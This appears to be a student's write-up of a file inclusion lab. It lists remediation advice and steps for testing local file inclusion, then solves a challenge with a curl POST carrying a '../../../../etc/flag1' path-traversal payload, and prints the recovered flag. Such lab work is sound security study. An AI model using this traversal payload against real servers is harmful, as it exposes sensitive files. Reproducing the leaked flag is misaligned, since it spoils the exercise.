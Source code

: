 We showed how to include PHP pages via RFI. Do research on how to get remote command execution (RCE), and answer the question in the challenge section.
*No answer needed*

### Remediation 



As a developer, it's important to be aware of web application vulnerabilities, how to find them, and prevention methods. To prevent the file inclusion vulnerabilities, some common suggestions include:

    Keep system and services, including web application frameworks, updated with the latest version.
    Turn off PHP errors to avoid leaking the path of the application and other potentially revealing information.
    A Web Application Firewall (WAF) is a good option to help mitigate web application attacks.
    Disable some PHP features that cause file inclusion vulnerabilities if your web app doesn't need them, such as allow_url_fopen on and allow_url_include.
    Carefully analyze the web application and allow only protocols and PHP wrappers that are in need.
    Never trust user input, and make sure to implement proper input validation against file inclusion.
    Implement whitelisting for file names and locations as well as blacklisting.


Ready for the challenges? 
*No answer needed*

###  Challenge 



Great Job! Now apply the techniques you've learned to capture the flags! Familiarizing yourself with HTTP Web basics could help you complete these challenges.

Make sure the attached VM is up and running then visit: http://10.10.61.224/challenges/index.php
Steps for testing for LFI

    Find an entry point that could be via GET, POST, COOKIE, or HTTP header values!
    Enter a valid input to see how the web server behaves.
    Enter invalid inputs, including special characters and common file names.
    Don't always trust what you supply in input forms is what you intended! Use either a browser address bar or a tool such as Burpsuite.
    Look for errors while entering invalid input to disclose the current path of the web application; if there are no errors, then trial and error might be your best option.
    Understand the input validation and if there are any filters!
    Try the inject a valid entry to read sensitive files

```
curl -X POST http://10.10.61.224/challenges/chall1.php -d 'file=../../../../etc/flag1'

 <div class='mt-5 mb-5'>
          <h5>Current Path</h5>
          <div class='file-Location'><code>/var/www/html</code></div>
        </div>
        <div>
          <h5>File Content Preview of <b>../../../../etc/flag1</b></h5>
          <code>F1x3d-iNpu7-f0rrn
</code>
    </div>  </body>
</html>

```
`Change the form method to POST in the page source or use a tool like Burp to modify the method of the request POST`
